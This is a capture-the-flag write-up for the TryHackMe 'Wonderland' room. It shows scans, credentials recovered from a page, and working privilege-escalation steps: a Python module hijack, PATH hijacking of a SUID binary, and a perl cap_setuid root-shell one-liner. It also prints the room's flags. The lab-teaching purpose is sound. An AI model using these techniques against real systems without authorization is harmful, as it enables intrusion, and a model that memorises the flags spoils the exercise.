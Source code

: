 ```yaml
---
description: Wonderland box from TryHackMe! write up.
---
```


# Wonderland

[Link to the room](https://tryhackme.com/room/wonderland)

## Nmap scan

```
# Nmap 7.91 scan initiated Mon Mar  8 11:54:32 2021 as: nmap -sC -sV -oN nmap.txt 10.10.176.220
Nmap scan report for 10.10.176.220
Host is up (0.082s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar  8 11:54:54 2021 -- 1 IP address (1 host up) scanned in 21.96 seconds
```

## Gobuster scan

I noticed that maybe that `r` directory could end up forming a word so i started scanning:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.176.220/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/03/08 11:57:50 Starting gobuster
===============================================================
/img (Status: 301)
/r (Status: 301)
===============================================================
2021/03/08 11:59:29 Finished
===============================================================
```

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.176.220/r
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/03/08 12:00:12 Starting gobuster
===============================================================
/a (Status: 301)
===============================================================
2021/03/08 12:01:10 Finished
===============================================================
```

At the end, the url looks like form "rabbit": http://10.10.176.220/r/a/b/b/i/t/

## Looking around the rabbit hole

After getting into http://10.10.176.220/r/a/b/b/i/t/ and inspecting the page i found a hidden p tag with this in it:

```
alice:HowDothTheLittleCrocodileImproveHisShiningTail
```

Maybe ssh password (?)

## SSH access


### alice

Well looks like it is. I could get access to the machine through ssh using the above credentials yeah!

Ok in `/home/alice` directory i found `root.txt` and `walrus_and_the_carpenter.py`. That last python file can be executed as the user `rabbit`. It just print random lines of a poem.

```
alice@wonderland:~$ sudo -l
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

The file have the next line `import random` which is a relative path so... i think we can work with that. I just wrote a little fake `random.py` file with the next content:


```
import pty

def choice(something_about_a_poem):
        pty.spawn("/bin/bash")
        exit()
```

Executing `walrus_and_the_carpenter.py` now as `sudo -l` showed, will execute our fake random module and give us access to `rabbit` user:

```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ 
```

### rabbit

I like to run `HOME=/home/$USER` to have the right user home directory configured in the shell.

Looks like `rabbit` has access to a SUID executable: `teaParty`. It ask you for something nice but just core dump for some reason.

I decided to download the file to my machine so i just passed the file to `alice` and download it. It is not stripped so that is cool for looking inside hehe

Ok this is funny:

```
void main(void)

{
  setuid(0x3eb);
  setgid(0x3eb);
  puts("Welcome to the tea party!\nThe Mad Hatter will be here soon.");
  system("/bin/echo -n \'Probably by \' && date --date=\'next hour\' -R");
  puts("Ask very nicely, and I will give you some tea while you wait for him");
  getchar();
  puts("Segmentation fault (core dumped)");
  return;
}
```

First the program just print the core dumped error, lmao. Second, it set the uid to 1003 (probably the `hatter` user).

I can see that the program uses the command `date` inside the `system` function with a relative PATH. Adding `/home/rabbit` to `rabbit` PATH: `PATH="$HOME:$PATH"` and creating `date` script in it with something... funny in it will do i think. (Remember to execute `chmod a+x date` to allow the system to run the script)

Lets try it, this is my `date` script:

```
#! /bin/sh

bash -p
```

And...

```
rabbit@wonderland:~$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:~$
```

Nice!

### hatter

I found a `passwd.txt` in `hatter` home directory. It contain `WhyIsARavenLikeAWritingDesk?` that is hatter password so we got to a "checkpoint":

`hatter:WhyIsARavenLikeAWritingDesk?`

We can now conect to hatter account directly.

Looks like the user flag is not here neither. Alice had the `root.txt` file in her directory, could be possible that we can just read `/root/user.txt` or something? In wonderland the things are a bit weird so lets try i dont know:

```
hatter@wonderland:~$ cat /root/user.txt
thm{"Curiouser and curiouser!"}
```

So.. we got the user flag, nice (Totally on porpouse) lets go for the root one.

After i while i decided to execute `linpeas` and i saw something interesting:

```
Files with capabilities:
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

Perl can manipulate the process UID so... lets try something:

```
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash -p";'
root@wonderland:~# 
```

Jackpot! We are root, lets get that root flag with `cat /home/alice/root.txt`:

`thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}`
